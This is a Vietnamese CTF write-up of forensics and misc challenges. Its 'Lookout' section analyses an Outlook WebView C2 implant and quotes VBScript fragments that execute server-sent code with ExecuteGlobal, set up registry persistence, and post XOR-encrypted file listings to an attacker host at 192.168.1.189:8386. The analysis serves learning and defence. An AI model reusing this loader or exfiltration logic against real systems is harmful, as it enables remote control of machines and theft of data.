

# Write-up BKISC CTF 2026



# Forensic

## **Beatiful Memory**


Đề bài cho 1 file chall.dmp, dùng vol3 để xem qua thử nó có gì đầu tiên là kiểm tra các tiến trình đang chạy trên hệ thống


Ở đây thấy có khá là nhiều tiến trình đang chạy, phát hiện `DumpIt.exe` (PID 8324) và rất nhiều tiến trình `msedge.exe` . Kiểm tra chi tiết đường dẫn thực thi bằng `windows.cmdline`


Xác định được tên người dùng của hệ thống là **`supadupadev` .** Mô tả bài là *"precious memory"*, mình đã thử tìm các file ảnh và dump ra một file wallpaper nhưng không thu được kết quả (Metadata và Steganography đều clean).
Chuyển sang quét chuỗi thô (`strings`) trên file dump để tìm nhanh format flag:


Kết quả trả về 2 chuỗi:

- `BKISC{Dunno_whut_to_say_T^T_Whut_r_u_doing_here?}`
- `BKISC{Woah_woah_u_know_sst1?}`

Cả hai đều là **Decoy**. Khi sử dụng lệnh `strings` kết hợp `grep` để tìm kiếm từ khóa *"precious"* (gợi ý từ mô tả bài), kết quả trả về không chỉ có các chuỗi thông thường mà còn chứa một lượng lớn các log/signature cảnh báo mã độc. Cụ thể:


Phát hiện rất nhiều thông báo giả mạo về Ransomware (`wordleware`, `flandreware`) và các đoạn script Phishing. Tác giả đã làm nhiễu dữ liệu rất mạnh.
Vì việc quét chuỗi ASCII thông thường chỉ ra mồi nhử, mình nghi ngờ flag thực sự đang nằm ở dạng dữ liệu khác hoặc chưa được lưu thành file. Mình quyết định kiểm tra xem có tiến trình nào đang giữ handle liên quan đến **Clipboard** (vì copy-paste là cách lưu trữ "memory" tạm thời phổ biến nhất):


Phát hiện tiến trình `svchost.exe` (**PID 5128**) đang giữ handle trỏ tới Registry Key: \SOFTWARE\MICROSOFT\CLIPBOARD
Kiểm tra thêm bằng `windows.registry.printkey` trên Hive của user `supadupadev`, xác nhận tính năng Clipboard History đang được bật (`EnableClipboardHistory = 1`).


**Kết quả thu được:**

- `EnableClipboardHistory`: **1** (Xác nhận tính năng lưu lịch sử Clipboard đang **BẬT**).
- `PastedFromClipboardUI`: **1** (Xác nhận người dùng đã từng thực hiện hành động dán dữ liệu từ giao diện lịch sử).

**Nhận định:** Với `EnableClipboardHistory = 1`, mình chắc chắn rằng mọi dữ liệu mà user `supadupadev` từng copy (bao gồm cả flag) đều đang được lưu trữ trong vùng nhớ đệm của dịch vụ Clipboard. Điều này củng cố quyết định tập trung phân tích sâu vào tiến trình quản lý clipboard thay vì tiếp tục tìm kiếm file thô trên disk.

Hệ điều hành Windows lưu trữ dữ liệu văn bản trong bộ nhớ và Clipboard dưới định dạng **Unicode (UTF-16 Little Endian)** (mỗi ký tự chiếm 2 byte, đi kèm byte `00`). Lệnh `strings` mặc định (ASCII 1 byte) đã bỏ sót flag này.

Mình tiến hành quét lại toàn bộ file dump bằng lệnh `strings` kèm tham số `-e l` (Little Endian) và lọc lấy chữ "BKISC{":


Flag: **`BKISC{W3ll_M3mory_is_Str0nk_right_?}`**

## **Lookout**


Đề cho 1 file chall.ad1, dùng FTK để xem 


Tiến hành khảo sát sơ bộ thì thấy được ở desktop có 1 file capture.pcapng với size khá lớn, mình nghĩ nó sẽ lưu lại lưu lượng mạng có thể chứa thông tin gì đó nên export ra và lục lọi thử xem có gì không.


Ở đây phần lớn đều là lưu lượng mạng người dùng bình thường nên để phát hiện bất thường mình vô http req thử thì thấy


Nhớ lại mô tả đề là *“While checking a monthly report…”*  ta check thử traffic đó


Có vẻ ta đã đoán đúng, decode base64 thử


Ta có thể thấy flow của malware

1. Tạo file `.reg`
2. Import registry
3. Cấu hình Outlook WebView
4. Cho Outlook load: `http://192.168.1.189:8386/plugin/search/`

Mục đích của persistence là mỗi khi người dùng mở Outlook, Outlook WebView sẽ tự động tải nội dung từ `http://192.168.1.189:8386/plugin/search/`

Sau khi xác định được URL đáng ngờ `http://192.168.1.189:8386/plugin/search/`, mình tiếp tục quay lại file `capture.pcapng` để kiểm tra traffic tới port `8386`.


Tiếp tục follow TCP stream tới endpoint `/plugin/search/` thì thấy server trả về một trang HTML chứa VBScript độc hại.

Payload này sử dụng COM object của Outlook thông qua: `window.external.OutlookApplication` để tương tác trực tiếp với Outlook và Windows API.

Script thực hiện các hành vi:

- thu thập `COMPUTERNAME` và `USERNAME`
- gửi thông tin về attacker server thông qua HTTP POST
- ghi thêm registry bằng `Wscript.Shell.RegWrite`
- thay đổi cấu hình Outlook WebView
- sử dụng Outlook ActiveX control để duy trì persistence

Ngoài ra payload còn sử dụng: `<object classid="CLSID:0006F063-0000-0000-C000-000000000046">` để load Outlook View Control ActiveX, cho phép web content tương tác trực tiếp với Outlook client.

Điều này cho thấy malware đã lợi dụng Outlook WebView như một C2/persistence channel thay vì chỉ đơn thuần redirect người dùng tới một webpage.


Sau khi Outlook WebView được kích hoạt, malware bắt đầu gửi HTTP POST request định kỳ tới attacker server.

Payload gửi đi:`QwBPAE0ATQBBAE4ARABPAHwAQgBLAEkAUwBDAA==`

Sau khi decode UTF-16LE Base64:`COMMANDO|BKISC`

Điều này cho thấy malware đang beacon thông tin của nạn nhân bao gồm:

- tên máy (`COMPUTERNAME`)
- username (`USERNAME`)

tới attacker server.

Sau nhiều lần beacon, server phản hồi: `o4WlfbKbx1xik1TgTQGeOQ||http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ`

Response này khớp với logic trong VBScript: `Split(rul,"||")` và lưu giá trị đầu tiên vào registry:

`HKCU\Software\Microsoft\Office\<version>\Outlook\UserInfo\KEY`

Payload stage tiếp theo đọc lại registry key này và sử dụng nó làm XOR key để giải mã dữ liệu nhận từ C2 server.

Điều này xác nhận malware hoạt động như một beacon/C2 channel thông qua Outlook WebView.


Tiếp tục follow request tới URL được attacker trả về: `/css/dx7u7QYCSlbTbQ`

thì phát hiện một HTML/VBScript loader khác. Payload này tiếp tục gửi request tới: `/css/dx7u7QYCSlbTbQ/FxBdmVg`

Sau khi nhận response từ server, script thực thi trực tiếp nội dung bằng: `ExecuteGlobal rp`

Điều này tương đương với việc tải và thực thi mã từ xa (remote code execution) ngay trong context của Outlook WebView.

Đây là kỹ thuật fileless execution khá nguy hiểm vì payload không cần ghi file xuống đĩa mà được thực thi trực tiếp trong bộ nhớ.


Tiếp tục phân tích payload cuối cùng tại:`/css/dx7u7QYCSlbTbQ/FxBdmVg`cho thấy malware đã triển khai đầy đủ cơ chế C2 beaconing.

Payload định kỳ gửi request tới:`/css/dx7u7QYCSlbTbQ/rUe38nIs` để lấy command hoặc payload mới từ attacker server.

Malware sử dụng: `ExecuteGlobal`để thực thi trực tiếp VBScript nhận được từ server trong bộ nhớ.

Đây không còn chỉ là persistence đơn giản mà đã hoạt động như một Outlook-based C2 implant hoàn chỉnh.


Ta nhớ lại trước đó đã lưu `o4WlfbKbx1xik1TgTQGeOQ`  vào `HKCU\Software\Microsoft\Office\<version>\Outlook\UserInfo\KEY`  để giờ làm XOR key


Với 

```c
response = serverapp.ResponseText
f = Left(response, 1)
j = Int(Mid(response, 2, 4)) * 1000
```

20010 tương đương 10s, tức implant sẽ sleep 10 giây trước khi tiếp tục beacon tới C2 server cho thấy implant đang hoạt động ở chế độ beaconing và chờ attacker gửi command từ xa.


với 

```c
f = Left(response, 1)
j = Int(Mid(response, 2, 4)) * 1000

If f = 2 Then    
	Exit Sub
ElseIf f = 1 Then    
	ExecuteGlobal Crypt(Mid(response, 6), ay, False)
Else    
	ExecuteGlobal Mid(response, 6)
End If
```

Nên trước khi đem xor ta bỏ 10010 ở đầu đi


Sau khi giải mã payload nhận từ C2, malware tiếp tục thực thi một VBScript khác với chức năng enumerate filesystem của nạn nhân.

Payload triển khai hàm:

```
dir_lister(folderpath, depth, recurselevels, filetype, filename, nodirectories, sizeformat, nofiles)
```

và sử dụng:

```
CreateObject("Scripting.FileSystemObject")
```

để truy cập trực tiếp filesystem Windows.

Script hỗ trợ:

- liệt kê file và thư mục
- recursive directory traversal
- lọc extension và filename
- lấy thông tin:
    - đường dẫn file
    - kích thước
    - thời gian chỉnh sửa cuối cùng

Kết quả được format dưới dạng:


Payload sau đó gọi:

```
list_dir = dir_lister("C:/Users/BKISC", 0, 0, "*", "*", False, "mb", False)
```

cho thấy attacker đang enumerate thư mục của user `BKISC`.

Sau khi thu thập dữ liệu, malware tiếp tục mã hóa thông tin bằng XOR thông qua:

```
Ohm = crypthelper(list_dir(), ay, True)
```

Trong đó `ay` chính là XOR key đã được lưu trước đó trong registry:

```
HKCU\Software\Microsoft\Office\<version>\Outlook\UserInfo\KEY
```

với giá trị:

```
o4WlfbKbx1xik1TgTQGeOQ
```

Cuối cùng dữ liệu được exfiltrate về attacker server bằng HTTP POST request:

```
requestpage("http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ", chr(34) & Ohm & chr(34))
```

Cứ như vậy ta đi qua 1 vài đoạn script cho tới khi thấy


Ở đây ta thấy attacker đã đọc file [flag.py](http://flag.py) trên máy nạn nhân và post về lại C2, ta chỉ cần lấy POST cuối đó


Flag: `*BKISC{l0oK_Ou7_f0R_0u71o0k_C2!!!}*`

# MISC

## **Confusion**


Đề cho 1 file chall.rar, unrar thì có 1 chall.png


Không xem được ảnh nên dùng hex-view xem thử


Thấy nó vừa ghép pdf và vừa có mp4, thử đổi qua pdf trước


Có vẻ là nửa sau của flag. Tiếp tục đổi qua mp4


Flag: `*BKISC{bUy_0n3_g37_7W0_aHh_f1lE}*`

## **Zopslop**


Đề cho 1 file chall.zip, unzip ta có 1 file step_1.zip, tiếp tục unzip thì  có 2 file là


Trong file zip_password.txt là 


Tôi đã thử dùng nó unzip step_2.zip nhưng k được, nhận ra nó có chứa các kí tự vô hình trong chuỗi

lọc nó ra

```python
s = """s‎u‎‎p‎‎e‎r‎‎_‎‎d‎‎u‎‎p‎‎e‎r‎_‎o‎m‎e‎g‎a‎_‎v‎‎e‎r‎‎y‎‎_‎‎s‎e‎c‎r‎e‎‎t‎‎_‎p‎a‎s‎‎s‎‎w‎‎o‎r‎d‎_‎‎h‎‎e‎‎h‎e‎h‎e‎‎h‎‎e‎h‎e‎‎h‎e‎‎_‎n‎‎o‎‎t‎‎_‎‎g‎‎u‎e‎‎s‎s‎y‎_‎a‎t‎_‎a‎‎l‎l‎‎_‎‎1‎‎0‎9‎‎5‎7‎1‎2‎‎9‎0‎8‎‎5‎7‎0‎1‎3‎‎9‎‎5‎8‎‎0‎‎9‎‎1‎‎3‎‎7‎5‎8‎‎0‎1‎‎3‎9‎7‎‎5‎8‎‎0‎‎1‎3‎9‎5‎7‎‎8‎‎1‎‎3‎0‎‎9‎‎5‎7‎‎1‎3‎"""

clean = ''.join(
    c for c in s
    if c.isprintable() and c not in ['\u200b','\u200c','\u200d','\ufeff']
)

print(clean)
```

Tiếp tục ta lại có


Lần này trong zip_password toàn kí tự không đọc được trông như:


Ta dùng công cụ sau: https://github.com/Shell-Company/poltergeist


Áp dụng cho file pass của mình ta được


Sau khi unrar ta có 1 file [decrypt.py](http://decrypt.py) như sau


Nhưng ở đây ta làm gì có file encrypt.bin nên tôi nghĩ  file có “stream ẩn”, tôi thử liệt kê ADS


Quả nhiên có [decrypt.py](http://decrypt.py/):secret:$DATA đọc thử


Ta ghi lại nó vào file encrypt.bin rồi chạy [decypt.py](http://decypt.py) ra được kết quả


Flag: `*BKISC{h0w_d1d_y0u_gue55_1t?}*`